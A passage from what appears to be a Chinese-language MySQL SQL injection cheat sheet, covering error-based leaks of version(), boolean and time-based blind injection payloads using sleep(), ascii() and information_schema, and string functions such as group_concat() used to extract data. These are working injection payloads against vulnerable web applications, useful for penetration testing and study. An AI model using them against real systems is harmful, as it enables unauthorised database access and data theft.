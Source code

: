 ```
ERROR 1772 (HY000): Malformed GTID set specification '5.7.12-log'.
mysql> select ST_PointFromGeoHash(version(),1);
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function st_pointfromgeohash
```
### 0x06 Bool型盲注
盲注推荐阅读：[一文搞定MySQL盲注](https://www.anquanke.com/post/id/266244)     
判断：   
`and 1=1`   
`and 1=2`   
读数据：    
`AND ascii(SELECT SUBSTR(table_name,1,1) FROM information_schema.tables) =ascii('A')`
### 0x07 时间型盲注
判断：     
`and sleep(5)`
读数据：    
```
//条件判断型：if((condition), sleep(5), 0);
//条件判断型：CASE WHEN (condition) THEN sleep(5) ELSE 0 END;
//无条件判断型：sleep(5*(condition))
and if((select ord(substring(database(),1,1))) = 97,sleep(5),1)
```
## 常用小技巧
### 1.多行合并一行   

#### concat()函数   
多个字符串连接成一个字符串。   
0x7e ~
```
//这里限制limit返回一行一个字段，如果不限制，还是返回多行
select concat(id,0x7e,name) as c from a limit 1;
```
#### concat_ws()
concat_ws() 代表 CONCAT With Separator ，是concat()的特殊形式。第一个参数是其它参数的分隔符。   
```
select concat('_',id,name) as c from a limit 1;
```

#### group_concat()函数
连接一个组的所有字符串，并以逗号分隔每一条数据   
```
//多行结果拼接一行
select group_concat(name) as name from a ;   
```

### 2. 截取字符串
left(),right(),substring(),substring_index()   
如果显示有字数限制，对于过长的字符串需要分部分截取。
从左边开始截取   
```
SELECT LEFT('web-exp-mysql',6)
```
从右边开始截取   
```
SELECT RIGHT('web-exp-mysql',6)
```
从第3个字符开始截取到结束   
```
SELECT SUBSTRING('web-exp-mysql', 3)
```
截取第二个“-”之前的所有字符    
```
SELECT SUBSTRING_INDEX('web-exp-mysql', '-', 2);
```